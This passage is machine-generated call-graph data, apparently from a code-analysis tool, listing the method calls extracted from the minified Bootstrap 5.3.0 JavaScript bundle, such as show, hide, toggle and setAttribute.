{"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "findOne"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_initializeBackDrop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_initializeFocusTrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_addEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_queueCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "activate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "deactivate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "blur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_queueCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "deactivate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_initializeBackDrop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_initializeFocusTrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_addEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "jQueryInterface"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getElementFromSelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "findOne"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "values"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hasContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "changeContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_checkContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toHtml"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_maybeSanitize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_resolvePossibleFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_typeCheckConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_typeCheckConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_checkContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_checkContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_typeCheckConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "findOne"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_resolvePossibleFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_putElementInTemplate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_maybeSanitize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_maybeSanitize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "parseFromString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_resolvePossibleFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_putElementInTemplate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_fixTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "disable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toggleEnabled"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isShown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_leave"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_enter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_disposePopper"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_disposePopper"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getTipElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_createPopper"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_queueCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_leave"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isAnimated"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_queueCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isWithActiveTrigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_disposePopper"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isAnimated"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isWithContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getTipElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_createTipElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_createTipElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getTemplateFactory"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toHtml"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isAnimated"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isShown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_disposePopper"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getTemplateFactory"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "changeContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getContentForTemplate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_resolvePossibleFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_initializeOnDelegatedTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getOrCreateInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isAnimated"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isShown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_createPopper"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_resolvePossibleFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getPopperConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getTipElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_initializeOnDelegatedTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "eventName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "eventName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "eventName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "eventName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_enter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_leave"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_fixTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_enter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isShown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_leave"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isWithActiveTrigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_isWithActiveTrigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "values"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "getDataAttributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_mergeConfigObj"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_configAfterMerge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_typeCheckConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_configAfterMerge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-5.3.0.bundle.min.js", "target": "_getDelegateConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 